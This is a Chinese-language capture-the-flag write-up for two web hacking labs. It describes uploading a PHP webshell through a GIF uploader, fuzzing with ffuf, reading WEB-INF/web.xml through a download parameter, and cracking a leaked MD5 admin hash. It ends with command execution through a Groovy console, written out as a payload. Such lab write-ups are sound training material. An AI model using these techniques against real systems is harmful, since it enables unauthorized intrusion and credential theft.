

## RemoteBinge
- https://x.com/hackinghub_io/status/1983217992579027331  


1. 进来是有个上传GIF  ，上传一张正常的看看业务功能   
2. 发现就是展示和上传 ，修改后缀为php / html 看看行不行     
3. 发现可以 然后 一句话 木马 拿flag  `flag{31bb2fcba177166fe823804cb0c7dbb6}`


## Path To RCE
- https://x.com/hackinghub_io/status/1982492919748587894     
1. 404 探测路径    
2. 登录界面： https://b3vtupoa.eu1.ctfio.com/admin/faces/jsf/login.xhtml 好像没有弱口令 继续fuzz
3. `ffuf -w wordlist.txt -u https://b3vtupoa.eu1.ctfio.com/admin/FUZZ -mc 200,201,300-307,400,405,415,403,401 -fs 0 -c -t 50 -v -recursion`   
	1. recursion 递归扫描 
	2. 发现 download / web-inf   
4. 看看Download 参数 `ffuf -w 2.txt -u "https://b3vtupoa.eu1.ctfio.com/admin/download?FUZZ=index.php" -c -mc 200-500 -fc 400 -t 400`   
5. 看看 有什么内容是我们可以查看的 （/etc/passwd ❌ 查看/app.js好像可以，但是啥也没有，但是这确定我们只能访问admin目录下的内容） （可以问问AI WEB-INF 中有什么东西我们可以利用 ）： https://b3vtupoa.eu1.ctfio.com/admin/down?filename=/WEB-INF/web.xml   
```xml
<?xml version="1.0" encoding="UTF-8"?> <web-app> <servlet> <servlet-name>Download Servlet</servlet-name> <servlet-class>com.bus.admin.DownloadServlet</servlet-class> <load-on-startup>4</load-on-startup> </servlet> <servlet-mapping> <servlet-name>Incident Report Servlet</servlet-name> <url-pattern>/download</url-pattern> </servlet-mapping> <servlet> <servlet-name>Incident Report Servlet</servlet-name> <servlet-class>com.bus.admin.IncidentReportServlet</servlet-class> <load-on-startup>4</load-on-startup> </servlet> <servlet-mapping> <servlet-name>Incident Report Servlet</servlet-name> <url-pattern>/incident-report</url-pattern> </servlet-mapping> </web-app>


我们再这个文件中发现了 ----> /incident-report  这可能是事件报告

我们下载它， 并查看事件报告
```
6. 我们在事件报告的ZIP文件中，发现了 admin.xml
```xml
<web-app>

<information>

<username>administrator</username>

<firstname>Administrator</firstname>

<lastname>Administrator</lastname>

<emailAddress/>

<phoneNumber/>

</information>

<passwords class="sorted-set">

<password>

<value>21232f297a57a5a743894a0e4a801fc3</value>

<beginDate>2023-01-30 07:18:22.343 UTC</beginDate>

<mustChange>false</mustChange>

</password>

<password>

<value>fd7cde5c34594dc95640681307f6f4fb</value>

<beginDate>2024-04-20 13:39:12.958 UTC</beginDate>

<mustChange>false</mustChange>

</password>

</passwords>

</web-app>
```
7. 去CMD5 网站 查询密码 https://md5.gromweb.com/?md5=fd7cde5c34594dc95640681307f6f4fb   ---> superpass123  账号为 administrator
8. 返回登录界面 登录 administrator superpass123  ，我们发现了一个Groovy 执行命令`print "whoami".execute.text` 但是我们无论怎么运行 都看不到命令回显，我们想到前面还有事件报告`/incident-report `，所以返回去查看下载新的事件报告，并在事件报告中，发现了我们执行的命令结果   `flag{530deb6454d57b13c2089064d4f48f66}`
